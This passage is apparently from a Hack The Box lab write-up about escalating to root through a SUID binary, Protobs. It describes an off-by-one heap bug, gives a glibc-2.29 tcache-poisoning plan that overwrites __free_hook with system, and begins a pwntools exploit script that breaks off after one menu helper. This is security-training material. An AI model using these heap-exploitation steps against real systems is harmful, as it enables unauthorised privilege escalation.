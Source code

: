 During enumeration of observer's account, I notice another documention at `/home/observer/Development`.

{% include image.html image_alt="421ba59b.png" image_src="/5839e089-8564-49d1-9f19-dbd621b89794/421ba59b.png" %}

In the documentation, there's a mention of a configuration utility, but where?

{% include image.html image_alt="166726bd.png" image_src="/5839e089-8564-49d1-9f19-dbd621b89794/166726bd.png" %}

It's not hard to find it.

{% include image.html image_alt="87b54dff.png" image_src="/5839e089-8564-49d1-9f19-dbd621b89794/87b54dff.png" %}

The SUID executable must be our ticket to `root`.

### Vulnerability Analysis of `Protobs`

There's a off-by-one bug when the description is `read` from `stdin`. The description size MUST BE less than or equal to the bytes read.

{% include image.html image_alt="6a504a87.png" image_src="/5839e089-8564-49d1-9f19-dbd621b89794/6a504a87.png" %}

### Exploit Development

The binary uses glibc-2.29, which has tcache enabled and double-free mitigation. The binary also has the following protection mechanisms on.

{% include image.html image_alt="c1f96157.png" image_src="/5839e089-8564-49d1-9f19-dbd621b89794/c1f96157.png" %}

So, my game plan is as follows:

1. Leak libc
2. Bypass tcache double-free mitigation in glibc-2.29
3. tcache poisoning to trick `malloc` into returning `__free_hook`
4. Overwrite `__free_hook` to `system`

Here's my heavily commented exploit.

<div class="filename"><span>exploit.py</span></div>

```python
from pwn import *

# Context
context.arch = "amd64"
context.terminal = ["xterm", "-e", "sh", "-c"]

# Helper functions
#
# There are two `malloc()'s in a new configuration.
# The first malloc has a fixed size - malloc(0x38).
# The second malloc is controlled by the description size.
#
def add(c, size, data):
	r.recvuntil("$ ")
	r.sendline('2')
	r.recvuntil("]: ")
	if len(c) == 1:
		r.sendline(c * 0x14)
	else:
		r.sendline(c)
	r.recvuntil("]: ")
	r.sendline(str(0))
	r.recvuntil("]: ")
	r.sendline(str(0))
```

[1]: https://www.hackthebox.eu/home/machines/profile/221
[2]: https://www.hackthebox.eu/home/users/profile/13531
[3]: https://www.hackthebox.eu/home/users/profile/64903
[4]: https://www.hackthebox.eu/